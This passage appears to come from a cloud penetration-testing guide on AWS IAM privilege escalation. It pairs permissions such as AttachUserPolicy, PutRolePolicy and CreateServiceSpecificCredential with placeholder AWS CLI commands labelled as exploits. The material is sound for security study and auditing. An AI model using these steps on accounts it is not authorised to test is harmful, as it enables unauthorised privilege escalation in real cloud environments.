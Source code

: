Enables generating or resetting credentials for specific AWS services (e.g., CodeCommit, Amazon Keyspaces), inheriting the permissions of the associated user.

**Exploit for Creation:**

{% code overflow="wrap" %}
```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```
{% endcode %}

**Exploit for Reset:**

{% code overflow="wrap" %}
```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```
{% endcode %}

**Impact:** Direct privilege escalation within the user's service permissions.

### **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

Allows attaching policies to users or groups, directly escalating privileges by inheriting the permissions of the attached policy.

**Exploit for User:**

```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```

**Exploit for Group:**

```bash
aws iam attach-group-policy --group-name <group_name> --policy-arn "<policy_arn>"
```

**Impact:** Direct privilege escalation to anything the policy grants.

### **`iam:AttachRolePolicy`,** ( `sts:AssumeRole`|`iam:createrole`) | **`iam:PutUserPolicy` | `iam:PutGroupPolicy` | `iam:PutRolePolicy`**

Permits attaching or putting policies to roles, users, or groups, enabling direct privilege escalation by granting additional permissions.

**Exploit for Role:**

```bash
bashCopy codeaws iam attach-role-policy --role-name <role_name> --policy-arn "<policy_arn>"
```

**Exploit for Inline Policies:**

```bash
aws iam put-user-policy --user-name <username> --policy-name "<policy_name>" \
    --policy-document "file:///path/to/policy.json"

aws iam put-group-policy --group-name <group_name> --policy-name "<policy_name>" \
    --policy-document file:///path/to/policy.json

aws iam put-role-policy --role-name <role_name> --policy-name "<policy_name>" \
    --policy-document file:///path/to/policy.json
```
